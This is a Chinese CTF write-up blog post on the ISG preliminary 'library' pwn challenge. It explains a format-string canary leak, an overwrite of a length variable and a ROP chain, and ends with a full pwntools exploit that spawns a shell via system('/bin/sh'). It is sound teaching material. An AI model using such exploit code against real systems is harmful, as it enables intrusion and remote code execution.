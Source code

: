 ```yaml
---
title: ISG初赛library
author: rk700
layout: post
redirect_from: /writeup/2014/12/28/isg-library
tags:
  - exploit
---
```


子曰：温故而知新。最近一段时间没有练习pwn的题目，正好当时ISG初赛的library还一直没研究，于是练习了下。果然是稍微放一放就生疏了……

比较明显的问题是在register里，有一个format string attack。但这道题对这里还是有一些限制，比如字符串长度只有15，而且一旦调用过一次就不能再调用了。我最初光考虑这个漏洞了，想好久也没有找到好的方法。因为有ASLR，所以必须先读某个函数的地址，再改got；但是只能调用一次这点限制太严重了，而且15个字符基本上改不了什么。

然后看到query里有一处读输入到栈上的代码，而读的长度是在一个全局变量里保存的，到此才稍微明白了思路：可以改这个全局变量使得读输入溢出，修改返回地址。但在query里还检查了canary，所以我们还需要canary的值，而这个值可以从format string那里得到。由于canary保存在栈上，为了读栈上的内容，用的格式是`%x`，所以要把返回的8 bytes的hex转化为4 bytes的内容。

具体地，改全局变量那里，由于15个字符的限制，只能改一下了，所以可以把全局变量的高位改为非零，这样的话全局变量的值就成了一个大数。

可以修改返回地址后，我又陷入了思维定式，还想再用format string来读函数地址。但正如前面所说，对register有限制；想要修改返回地址为main从头再来，但全局变量那里又需要再改了……最后意识到，一旦可以修改返回地址，就直接rop了，不需要再利用限制那么严格的format string。

于是，用`puts`来打印函数地址。rop最后跳到query里，再一次造成溢出，执行`system`。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')

    #libc = ELF('/opt/arch32/usr/lib/libc.so.6')
    systemLibcAddr = 0x3b010#libc.symbols['system']
    #print hex(systemLibcAddr)
    putsLibcAddr = 0x64250#libc.symbols['puts']
    #print hex(putsLibcAddr)
    shStrLibcAddr = 0x15d1b3#next(libc.search('/bin/sh\x00'))
    #print hex(shStrLibcAddr)

    elf = ELF('library')
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']

    leftTime = 0x0804b008
    doQuery = 0x08048971

    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    payload = "1\n" + p32(leftTime+1) + "%35$x%10$hn\n"
    conn.send(payload)
    conn.recvuntil("Mr./Mrs. "+p32(leftTime+1))
    canary = int(conn.recvn(8),16)
    #print "canary is %s" % hex(canary)

    payload = "2\n" + "A"*0x100 + p32(canary) + "B"*12 + p32(putsPlt) + p32(doQuery) + p32(putsGot) + "\n"
    conn.send(payload)
    conn.recvuntil(":'(\n")

    putsMemAddr = unpack(conn.recvn(4))
    systemMemAddr = putsMemAddr + (systemLibcAddr - putsLibcAddr)
    shStrMemAddr = putsMemAddr + (shStrLibcAddr-putsLibcAddr)
    #print "system is at %s" % hex(systemMemAddr)
    #print "puts is at %s" % hex(putsMemAddr)
    #print "sh is at %s" % hex(shStrMemAddr)

    payload = "A"*0x100 + p32(canary) + "B"*12 + p32(systemMemAddr) + p32(0xabcdabcd) + p32(shStrMemAddr) + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}
